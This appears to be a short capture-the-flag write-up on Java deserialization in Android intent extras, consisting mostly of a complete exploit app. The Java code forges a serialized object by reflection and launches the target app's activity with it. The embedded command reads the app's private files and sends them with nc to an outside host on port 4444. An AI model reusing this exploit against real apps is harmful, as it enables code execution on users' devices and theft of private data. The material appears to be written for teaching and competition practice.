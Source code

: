 https://shivasurya.me/security/android/android-security/2024/01/24/java-deserialization-rce-android-application-layer.html

Deserialization in intent Extras. Because we don't know the actual code of the program, we need to get the serial version UID using this tool https://docs.oracle.com/javase/10/tools/serialver.htm and then make a vulnerable class using that UID.

```java
package com.dimas.lookupexploit;

import android.content.Intent;
import android.os.Bundle;

import androidx.annotation.NonNull;
import androidx.appcompat.app.AppCompatActivity;
import com.dimas.lookup.Testing;
import com.dimas.lookup.Testing2;

import java.lang.reflect.Field;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        String cmd = "sh -c $@|sh . echo (cat /data/data/com.dimas.lookup/files/*) | nc playground.tcp1p.team 4444";
        Testing2 testing2 = getTesting2(cmd);
        bundle.putSerializable("foo", testing2);
        intent.setClassName("com.dimas.lookup", "com.dimas.lookup.RealTimeUpdateActivity");
        intent.putExtras(bundle);
        startActivity(intent);
    }

    @NonNull
    private static Testing2 getTesting2(String cmd) {
        Testing testing = new Testing();
        try {
            Field field = testing.getClass().getDeclaredField("cmd");
            field.setAccessible(true);
            field.set(testing, cmd);
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        Testing2 testing2 = new Testing2();
        try {
            Field field = testing2.getClass().getDeclaredField("object");
            field.setAccessible(true);
            field.set(testing2, testing);
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        return testing2;
    }
}
```
